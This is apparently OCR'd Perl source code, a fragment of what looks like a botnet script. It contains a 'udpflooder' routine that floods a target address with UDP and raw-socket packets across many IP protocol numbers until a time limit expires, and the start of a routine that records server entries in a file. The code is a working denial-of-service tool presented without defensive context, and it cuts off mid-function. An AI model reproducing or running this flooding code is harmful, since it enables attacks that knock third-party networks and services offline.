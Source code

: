 sub udpflooder {
   my $iaddr = inet_aton($_[0]);
   #my $msg = 'A' x $_[1];

   my $porta = $_[1];
   my $msg = genGarbage($_[2]);

   my $ftime = $_[3];
   my $cp = 0;
   my (%pacotes);

   print " udpflooder $_[0] $ftime\n";	

   $pacotes{icmp} = $pacotes{igmp} = $pacotes{udp} = $pacotes{o} = $pacotes{tcp} = 0;
   #socket(SOCK1, PF_INET, SOCK_RAW, 2) or $cp++;
   socket(SOCK2, PF_INET, SOCK_DGRAM, 17) or $cp++;
   #socket(SOCK3, PF_INET, SOCK_RAW, 1) or $cp++;
   #socket(SOCK4, PF_INET, SOCK_RAW, 6) or $cp++;
   return(undef) if $cp == 4;
   my $itime = time;
   my ($cur_time);
   while ( 1 ) {
	  #for (my $porta = 1; $porta <= 65000; $porta++)
	  {

		 $cur_time = time - $itime;
		 last if $cur_time >= $ftime;
		 #send(SOCK1, $msg, 0, sockaddr_in($porta, $iaddr)) and $pacotes{igmp}++;
		 send(SOCK2, $msg, 0, sockaddr_in($porta, $iaddr)) and $pacotes{udp}++;
		 #send(SOCK3, $msg, 0, sockaddr_in($porta, $iaddr)) and $pacotes{icmp}++;
		 #send(SOCK4, $msg, 0, sockaddr_in($porta, $iaddr)) and $pacotes{tcp}++;
		 for (my $pc = 3; $pc <= 255;$pc++) {
			next if $pc == 6;
			$cur_time = time - $itime;
			last if $cur_time >= $ftime;
			socket(SOCK5, PF_INET, SOCK_RAW, $pc) or next;
			send(SOCK5, $msg, 0, sockaddr_in($porta, $iaddr)) and $pacotes{o}++;

			#print "send $msg port=$porta\n";
			#print ".";	

		 }
	  }
	  last if $cur_time >= $ftime;
   }
   #print "done on port $porta\n";
   return($cur_time, %pacotes);
}

sub addServer {
	my $sp = $_[0];
	if (open(FILE, $serverfile)){
		my @serverlist = <FILE>;
		close (FILE);
		foreach my $i (@serverlist){
			if ($i =~ /^$sp/){
				return;
			}
		}
	}
	if (!open(FILE,">>".$serverfile)){
		if (!open(FILE,">".$serverfile)){
			return;
		}
	}
	print FILE $sp."\n";
	close(FILE);
